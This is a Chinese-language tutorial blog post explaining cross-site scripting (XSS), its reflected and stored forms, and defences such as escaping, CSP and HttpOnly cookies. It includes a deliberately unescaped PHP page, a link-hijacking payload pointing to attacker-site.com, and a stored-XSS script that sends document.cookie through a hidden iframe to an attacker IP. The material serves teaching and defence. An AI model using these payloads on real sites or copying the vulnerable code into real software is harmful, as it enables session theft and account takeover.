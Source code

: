 # XSS 跨站脚本攻击


---

随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是 XSS
XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与Web应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

**总之，XSS 能做用户使用浏览器能做的一切事情。包括获取用户的 cookie 等重要隐私信息的操作。另外，同源策略无法保证不受 XSS 攻击，因为此时攻击者就在同源之内**

##XSS 工作原理
XSS通常可以分为两大类：

- 客户端型
- 服务端型

无论是哪一种 XSS，其目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）- 用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

###客户端型 xss 攻击

客户端型 xss 攻击是一次性的，仅对当次的页面访问产生影响。客户端型 xss 攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

假设有以下index.php页面：
```
<?php
$name = $_GET['name'];
echo "Welcome $name<br>";
echo "<a href="http://www.cnblogs.com/bangerlee/">Click to Download</a>";
?>
```
该页面显示两行信息：

从URI获取 'name' 参数，并在页面显示
显示跳转到一条URL的链接
这时，当攻击者给出以下URL链接：
```
index.php?name=guest<script>alert('attacked')</script>
```
当用户点击该链接时，将产生以下html代码，带'attacked'的告警提示框弹出：
```
Welcome guest
<script>alert('attacked')</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```

除了插入alert代码，攻击者还可以通过以下URL实现修改链接的目的：

```
index.php?name=
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
```
当用户点击以上攻击者提供的URL时，index.php页面被植入脚本，页面源码如下：
```
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```
用户再点击 "Click to Download" 时，将跳转至攻击者提供的链接。

##服务端型 XSS 攻击
服务端型的 XSS 攻击与客户端型的运行原理类似。 其本质上是注入攻击。区别在于服务端型的恶意代码可以复用，并且不需要引诱用户点击某个连接。

还记得之前浏览器同源策略的知识吗？
浏览器的同源策略虽然对 ajax 请求做了限制，现代浏览器对于某些 xss 而已代码也做了过滤。但是，对于服务端返回的嵌入式资源的跨域交互是允许的！

黑客将将恶意代码通过某个操作，写入被攻击服务器的数据库中，接着在某个数据列表展示页面中通过嵌入 js 代码，迫使用户的浏览器执行恶意 javascript 代码来达到 XSS 攻击的目的。
就像下面这样：
```
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);

```
##如何避免 XSS 攻击
- 对于任何用户输入的信息，入库之前都要进行转义。
- 使用浏览器自带的 xss filter
现代浏览器都对反射型xss有一定的防御力，其原理是检查url和dom中元素的相关性。但这并不能完全防止反射型xss。另外，浏览器对于存储型xss并没有抵抗力，原因很简单，用户的需求是多种多样的。所以，抵御xss这件事情不能指望浏览器。
- CSP(Content Security Policy)
从原理上说防止xss是很简单的一件事，但实际中，业务代码非常多样和复杂，漏洞还是是不是会出现。 CSP 并不是用来防止xss攻击的，而是最小化xss发生后所造成的伤害。事实上，除了开发者自己做好xss转义，并没有别的方法可以防止xss的发生。CSP可以说是html5给web安全带来的最实惠的东西。。CSP的作用是限制一个页面的行为不论是否是javacript控制的。如何引入CSP呢？

假设现在需要完成一个只允许脚本从本源加载资源的设置，则有两种方式。

*通过response头*
```Content-Security-Policy: script-src ‘self’```
*通过HTML的META标签*
```<meta http-equiv=”Content-Security-Policy” content=”script-src ‘self'”>```
*CSP 策略常用限制功能*
```
base-uri : 限制这篇文档的uri  
child-src ：限制子窗口的源(iframe,弹窗等),取代frame-src  
connect-src ：限制脚本可以访问的源  
font-src : 限制字体的源  
form-action : 限制表单能够提交到的源  
frame-ancestors : 限制了当前页面可以被哪些页面以iframe,frame,object等方式加载  
frame-src ：deprecated with child-src,限制了当前页面可以加载哪些源，与frame-ancestors对应 
img-src : 限制图片可以从哪些源加载  
media-src : 限制video, audio, source, track 能够从哪些源加载  
object-src ：限制插件可以从哪些源加载  
sandbox ：强制打开沙盒模式

```

CSP是一个强大的策略，几乎可以限制了所有能够用到的资源的来源。使用好CSP可以很大成都降低XSS带来的风险
CSP 目前有两版，CSP1 和CSP2， 两版的支持状态可以在 http://caniuse.com/#search=csp 中查到。

- Http-Only
使用 http-only 保护cookie。可以保证即使发生了xss，用户的cookie也是安全的。使用http-only 保护的cookie是不会被 javascript 读写的。所以无论是客户端还是服务端的 XSS 攻击，都无法通过 js 获取到用户的 cookie 信息。


##总结
XSS 与 CSRF 攻击都是属于高危攻击手段。即使是在现代浏览器、同源策略以及 html5 的强大防线下，他们依然能够对 web 应用产生巨大的危害。
在开发 web 应用时，应该合理利用 http-only、CSP 策略、以及用户输入信息转义，能够将 XSS 与 CSRF 的风险降到最低。

---

Copyright 2017/08/15 by Chuck Lin

#####参考链接
- [避免 SQL 注入](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md), by wuyuanwei
- [Web 攻击与防护](http://liuwanlin.info/webgong-ji-yu-fang-hu/), by liuwulin
- [浏览器的同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)
- [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
- [XSS 攻击入门](http://www.cnblogs.com/bangerlee/archive/2013/04/06/3002142.html)
- [关于Web安全，99%的网站都忽略了这些](https://blog.wilddog.com/?p=290), by wilddog
- [预防跨站点请求伪造：了解浏览器选项卡中的隐藏危险](https://www.ibm.com/developerworks/cn/web/se-appscan-detect-csrf-xsrf/)
- [CSRF 攻击的应对之道](http://www.importnew.com/5839.html)

若文章有幸帮到了您，您可以捐助我，以鼓励我写出更棒的作品！
![alipay.jpg-17.7kB][1]
![wechat.jpg-16.7kB][2]


[1]: http://static.zybuluo.com/mikumikulch/6g65s5tsspdmsk87a8ariszo/alipay.jpg
[2]: http://static.zybuluo.com/mikumikulch/rk5hldgo4wi9fv23xu3vm8pf/wechat.jpg



